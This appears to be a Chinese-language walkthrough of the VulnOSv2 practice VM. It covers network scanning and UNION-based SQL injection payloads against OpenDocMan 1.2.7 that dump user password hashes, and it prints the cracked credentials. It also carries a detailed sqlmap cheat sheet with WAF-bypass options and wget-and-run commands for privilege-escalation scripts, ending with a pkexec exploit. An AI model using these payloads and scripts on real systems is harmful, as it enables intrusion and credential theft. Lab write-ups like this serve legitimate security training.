






VulnOSv2
xxxxxxxxxxarp-scan -l nmap --min-rate 100000 -p- 192.168.111.133 nmap --min-rate 100000 -p22,80,6667 -A 192.168.111.133

xxxxxxxxxxdirsearch -u 192.168.111.133 dirb http://192.168.111.133/ nikto -host 192.168.111.133 -p 80
常规扫描，目前没有任何有用信息，查看页面发现有Drupal 7

同时这里可能存在sql注入 在页面里点点点，找到这个路径 /jabcd0cs/ 这个是OpenDocMan--v1.2.7，想起了之前dirb扫到的一个目录是版本号
http://192.168.111.133/javascript/jquery/version 进去之后只有这个版本号1.7.2 没事，跟这个没关系


xxxxxxxxxx有nday，http://192.168.111.133/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user UNION SELECT 1,version(),3,4,5,6,7,8,9 查版本号<1> 库名?q=1&add_value=odm_user UNION SELECT 1,database(),3,4,5,6,7,8,9<2> 表名?q=1&add_value=odm_user UNION SELECT 1,group_concat(table_name),3,4,5,6,7,8,9 from information_schema.tables where table_schema=database()<3> 列名（后端做了过滤，可以用16进制编码表示表名）?q=1&add_value=odm_user UNION SELECT 1,group_concat(column_name),3,4,5,6,7,8,9 from information_schema.columns where table_name=0x6f646d5f75736572 and table_schema=database()<4> 数据?q=1&add_value=odm_user UNION SELECT 1,group_concat(concat(username,0x5e,password)),3,4,5,6,7,8,9 from odm_usersqlmap：sqlmap -u "http://192.168.111.133/jabcd0cs//ajax_udf.php?q=1&add_value=odm_user" --level=3 --risk=3 -D jabcd0cs -T odm_user -C username,password --dump --batchsqlmap -u "http://192.168.111.133/jabcd0cs//ajax_udf.php?q=1&add_value=odm_user" --level=3 --risk=3 --current-user --batchsqlmap -u "http://192.168.111.133/jabcd0cs//ajax_udf.php?q=1&add_value=odm_user" --level=3 --risk=3 --is-dba --batch##########################################################################################################################################sqlmap基本使用：1、检测「注入点」sqlmap -u 'http://xx/?id=1'2、查看所有「数据库」sqlmap -u 'http://xx/?id=1' --dbs3、查看当前使用的数据库sqlmap -u 'http://xx/?id=1' --current-db4、查看「数据表」sqlmap -u 'http://xx/?id=1' -D 'security' --tables5、查看「字段」sqlmap -u 'http://xx/?id=1' -D 'security' -T 'users' --tables6、查看「数据」sqlmap -u 'http://xx/?id=1' -D 'security' -T 'users' --dump一、目标检测「注入点」前，需要指定需要检测的「对象」。1、指定url -u 参数，指定需要检测的url，单/双引号包裹。中间如果有提示，就输入y。提示：SQLmap不能直接「扫描」网站漏洞，先用其他扫描工具扫出注入点，再用SQLmap验证并「利用」注入点。sqlmap -u 'http://192.168.31.180/sqli-labs-master/Less-1/?id=1'扫描完成后，告诉我们存在的注入类型和使用的数据库及版本。

xxxxxxxxxx#2指定文件（批量检测）准备一个「文件」，写上需要检测的多个url，一行一个。 sqlmap -m urls.txt 逐个扫描url，需要确认就按y。 然后再按y扫描下一个url。3、指定数据库/表/字段-D 指定目标「数据库」，单/双引号包裹，常配合其他参数使用。-T 指定目标「表」，单/双引号包裹，常配合其他参数使用。-C 指定目标「字段」，单/双引号包裹，常配合其他参数使用。sqlmap -u 'http://xx/?id=1' -D 'security' -T 'users' -C 'username' --dump --batch4、post请求 检测「post请求」的注入点，使用BP等工具「抓包」，将http请求内容保存到txt文件中。-r 指定需要检测的文件，SQLmap会通过post请求方式检测目标。 sqlmap -r bp.txt5、cookie注入 --cookie 指定cookie的值，单/双引号包裹。 sqlmap -u "http://xx?id=x" --cookie 'cookie'二、脱库 获取所有内容 sqlmap -u 'http://xx/?id=1' -a a：all1、获取数据库 --dbs 获取数据库 1.1、获取数据库版本 sqlmap -u 'http://xx/?id=1' -b2.1、获取表，可以指定数据库 sqlmap -u 'http://xx/?id=1' -D 'security' --tables2.2、同时获取多个库的表名，库名用逗号分隔。 sqlmap -u 'http://xx/?id=1' -D 'security,sys' --tables2.3、不指定数据库，默认获取数据库中所有的表。 sqlmap -u 'http://xx/?id=1' --tables3.1、获取字段，可以指定库和表，sqlmap -u 'http://xx/?id=1' -D 'security' -T 'users' --columns 最后面显示表（users）中的所有字段。3.2、不指定表名，默认获取当前数据库中所有表的字段。 sqlmap -u 'http://xx/?id=1' --columns4、获取字段类型--schema ，可以指定库或指定表。不指定则获取数据库中所有字段的类型。sqlmap -u 'http://xx/?id=1' -D 'security' --schema5、获取值（数据--dump，可以指定具体的库、表、字段。qlmap -u 'http://xx/?id=1' -D 'security' -T 'users' -C 'username,password' --dump获取指定库中所有表的数据。 sqlmap -u 'http://xx/?id=1' -D 'security' --dump6.1、获取当前登录数据库的用户 sqlmap -u 'http://192.168.31.180/sqli-labs-master/Less-1/?id=1' --current-user--users 获取数据库的所有用户名。 sqlmap -u 'http://xx/?id=1' --users--passwords 获取数据库的所有用户名的密码（哈希）。 sqlmap -u 'http://xx/?id=1' --passwords--privileges 查看每个数据库用户都有哪些权限。sqlmap -u 'http://xx/?id=1' --privileges--is-dba 判断当前登录的用户是不是数据库的管理员账号。sqlmap -u 'http://xx/?id=1' --is-dba--hostname 获取服务器主机名。sqlmap -u 'http://xx/?id=1' --hostname8、搜索库、表、字段。--search 搜索数据库中是否存在指定库/表/字段，需要指定库名/表名/字段名。搜索数据库中有没有 security 这个数据库：sqlmap -u 'http://xx/?id=1' -D 'security' --search|||sqlmap -u 'http://xxx/?id=1' -T 'users' --search||sqlmap -u 'http://xx/?id=1' -C 'username' --search9、正在执行的SQL语句--statements 获取数据库中正在执行的SQL语句。sqlmap -u 'http://xx/?id=1' --statements三、WAF绕过--tamper 指定绕过脚本，绕过WAF或ids等。 sqlmap -u 'http://xx/?id=1' --tamper 'space2comment.py'SQLmap内置了很多绕过脚本，在 /usr/share/sqlmap/tamper/ 目录下三、其他--batch （默认确认）不再询问是否确认。--method=GET 指定请求方式（GET/POST）--random-agent 随机切换UA（User-Agent）--user-agent ' ' 使用自定义的UA（User-Agent）--referer ' ' 使用自定义的 referer--proxy="127.0.0.1:8080" 指定代理--threads 10 设置线程数，最高10--level=1 执行测试的等级（1-5，默认为1，常用3）--risk=1 风险级别（0~3，默认1，常用1），级别提高会增加数据被篡改的风险。##########################################################################################################################################

这有两个用户被查出来 webmin和guest，解一下md5 webmin^b78aae356709f8c31118ea613980954b,guest^084e0343a0486ff05530df6c705c8bb4
得到两组ssh的登录账号webmin：webmin1980；guest：guest
开始提权
x
### Kali Linux 中常见的提权工具和脚本：1. **LinPEAS**:- **LinPEAS** 是一个常用的 Linux 提权枚举脚本，它会帮助你发现目标系统中的潜在提权路径。它会扫描系统配置文件、权限、SUID 文件、服务、环境变量等，查找可能的漏洞或不当配置。- 使用方法：```bash wget https://github.com/carlospolop/PEASS-ng/releases/download/20201027/linpeas.shchmod +x linpeas.sh./linpeas.sh```2. **LinEnum**:- **LinEnum** 是另一个流行的 Linux 提权工具，用来自动化收集系统信息。它可以帮助你分析目标机器并提供详细的提权建议。- 使用方法：```bash wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.shchmod +x LinEnum.sh./LinEnum.sh```3. **GTFOBins**:- **GTFOBins** 是一个由社区维护的项目，包含了各种 Linux 二进制文件和命令，这些命令可以被用来绕过权限限制或提升权限。它列出了许多常见的二进制文件及其潜在的提权用途，比如利用某些命令作为特权提权的入口。- 官网：https://gtfobins.github.io/4. **The 5th Operating System (5OS)**:- 这是一个专注于 Linux 提权的项目，旨在自动化提权过程。它会分析目标系统的配置并找出潜在的提权漏洞。5. **Linux Exploit Suggester (linux-exploit-suggester)**:- **Linux Exploit Suggester** 是一个根据系统版本及内核信息建议潜在漏洞的脚本。它会根据目标系统的内核版本等信息，提供适合的漏洞利用建议。- 使用方法：```bashCopy Codewget https://raw.githubusercontent.com/jondonas/linux-exploit-suggester/master/linux-exploit-suggester.shchmod +x linux-exploit-suggester.sh./linux-exploit-suggester.sh```6. **PSpy**:- **PSpy** 是一个用来查看 Linux 系统中正在运行的进程及其活动的脚本。通过分析正在运行的进程，攻击者可以发现未授权的进程、敏感文件或容易利用的漏洞。- 使用方法：```bashCopy Codewget https://github.com/Arvanaghi/pspy/releases/download/1.3.0/pspy_amd64chmod +x pspy_amd64./pspy_amd64```### 提权的常见方法：- **SUID/SGID 程序**：某些具有 SUID 权限的程序（如 `/usr/bin/passwd`）可能允许普通用户通过执行这些程序来提升权限。- **内核漏洞**：内核漏洞（例如 dirty cow 漏洞）也常常成为提权的目标。- **配置错误**：如权限设置不当、配置文件暴露敏感信息等。- **不安全的服务配置**：例如不正确配置的 `sudo`、`cron` 服务等。在这里，我用blasty-vs-pkexec.c
xxxxxxxxxx`blasty-vs-pkexec.c` 是一个利用 `pkexec` 漏洞的提权工具。`pkexec` 是一个用于允许普通用户执行特权命令的工具，通常作为 `polkit`（PolicyKit）的一部分存在。这个漏洞发生在 `pkexec` 中，允许攻击者绕过安全检查，提升权限到 `root`。该工具通常被用于渗透测试中，利用这一漏洞进行提权。